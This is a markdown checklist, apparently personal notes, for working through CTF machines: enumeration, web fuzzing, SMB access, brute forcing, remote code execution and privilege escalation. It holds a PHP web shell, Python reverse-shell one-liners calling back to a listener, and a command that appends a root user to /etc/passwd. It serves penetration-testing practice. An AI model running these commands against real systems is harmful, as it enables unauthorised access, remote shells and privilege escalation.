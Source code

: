 # Checklist for CTF

This is an attempt to create mindmap oriented checklist for CTF and no reason can this not extend to bug bounty too.

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)




- [ ] Enum
	- [ ] Nmap
		- [ ] [Howto](active-information-gathering/nmap.md)
			- [ ] Copy key findings to report
			- [ ] check results
			- [ ] Paste to [report](templates/report.md)
			- [ ] Highlight exploitables/targets
	- [ ] Rustscan
		- [ ] check results
  - [ ] `enum4linux $IP` -> users, share, comon structure, server block.
    - [ ] Highlights
      - [ ] check results 
      - [ ] Check SMB null session
      - [ ] system level users
	- [ ] nmap-nse
  	- [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)
	- [ ] smb/netbio-ssn
		- [ ] Ports [139, 445]
		- [ ] `mkdir smb`
		- [ ] `nmap -p139,445 --script=smb-enum-shares $IP`
			- [ ] `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
			- [ ] smbclient //'IP'/qui -N
			- [ ] crackmapexec
			- [ ] mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
		- [ ] `smbmap -H $IP`
		- [ ] `smbclient --no-pass -L //$IP`
		- [ ] `smbclient --no-pass \\\\$IP\\anonymous`
		- [ ] `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
		- [ ] `mget file.name`
		- [ ] `smbmap -u <user> -p <PassWord> -H $IP`
		- [ ] `smbclient //'IP'/<share> -U'user'%'password'`
		- [ ] `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`
	- [ ] ssl/pop3 [110]
	- [ ] ssl/imap [993/143]
	- [ ] Apache Tomcat [8080]
		- [ ] Read Version
		- [ ] Check URL (hints)
		- [ ] default credentials
		- [ ] mfsconsole /is it allowed?
	- [ ] Domain [53]
	- [ ] Web Enum
		- [ ] Load each targetted port in browser
		- [ ] export PORT=80
		- [ ] `dirb http://$IP:$PORT/ -r`
		- [ ] `nikto --host http://<IP> -C all` :: tool for webapp
		- [ ] `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
			- [ ] HTTPS you will want to include protocol too
			- [ ] `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
		- [ ] `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
		- [ ] framework/server/service -> searchexploit
		- [ ] Check for config through URL's like 
		- [ ] hostname/username/re-use etc
		- [ ] LFI
			- [ ] check for ssh keys
			- [ ] check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
			- [ ] vsftpd -> upload, to rce from upload file
		- [ ] RFI
			- [ ] rev shell
				- [ ] https://www.revshells.com/
				- [ ] `python -c 'import pty;pty.spawn("/bin/bash")'`
		- [ ] `linpeas.sh`
		- [ ] CUPS Http `631`
	- [ ] SSH
		- [ ] hydra
			- [ ] [Howto](tools/bruteforce/ssh/hydra) 
	- [ ] `curl -A "GoogleBot" http://$IP/robots.txt`
	- [ ] searchsploit
	- [ ] Port knocking
		- [ ] nmap port knock 
- [ ] /cgi-bin
	- [ ] shellshock [Howto](foothold/shellshock)
- [ ] morse code?



- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`


- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] `kernel exploits?`
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)
